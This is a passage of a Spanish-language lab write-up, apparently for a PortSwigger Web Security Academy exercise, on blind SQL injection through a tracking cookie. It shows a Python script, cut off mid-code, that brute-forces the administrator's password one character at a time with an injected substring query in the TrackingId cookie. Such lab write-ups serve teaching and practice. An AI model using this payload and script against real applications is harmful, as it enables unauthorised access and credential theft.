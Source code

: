 Si por ejemplo seleccionamos el segundo caracter **username,2,1** la palabra **admnistrator** su segunda letra es la **d** así que ya es correcto y nos aparece en el mensaje para basarnos en eso 

![](/assets/images/ports-writeup-sqli/web62.png)

Igual que el campo **Username** podemos hacerlo para **password** pero vamos a usar **Python3** para que sea mucho mas rápido y poder fuzzear las posiciones y nos basamos en la respuesta

```bash
#!/usr/bin/python3 

from pwn import *
import requests, time, signal, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+c 
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0aa6009704c7d45a88ea00aa00d1002d.web-security-academy.net/"
characters = string.ascii_lowercase + string.digits

def makeRequest():
    
    password = ""

    p1 = log.progress("Fuerza Bruta")
    p1.status("Iniciando Fuerza Bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1, 21): # Longitud de la contraseña 
        for character in characters:    
            
            cookies = {
                'TrackingId': "h9NyMIr3HYJLUkb8' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                'session': 'yTTLOIU9sVTCPIJ9RRzXZF1jIoSmaWuN'
```